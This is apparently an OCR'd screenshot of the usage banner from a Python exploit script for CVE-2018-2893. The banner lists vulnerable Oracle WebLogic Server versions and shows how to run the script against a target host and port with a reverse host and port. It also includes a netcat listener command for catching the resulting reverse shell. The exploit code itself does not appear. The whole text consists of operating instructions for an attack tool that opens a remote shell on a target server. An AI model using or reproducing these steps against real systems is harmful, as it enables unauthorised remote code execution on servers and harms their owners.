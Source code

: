python cve-2018-2893_cmd.py
+------------------------------------------------------------------------------+
+ VER: Oracle WebLogic Server 10.3.6.0                                         +
+      Oracle WebLogic Server 12.1.3.0                                         +
+      Oracle WebLogic Server 12.2.1.2                                         +
+      Oracle WebLogic Server 12.2.1.3                                         +
+ USE: python cve-2018-2893_cmd.py <host> <port> <reverse_host> <reverse_port> +
+ EXP: python cve-2018-2893_cmd.py IP PORT LOCAL_IP LOCAL_PORT                 +
+      [2.2.2.2] nc -lvvp 3333                                                 +
+------------------------------------------------------------------------------+
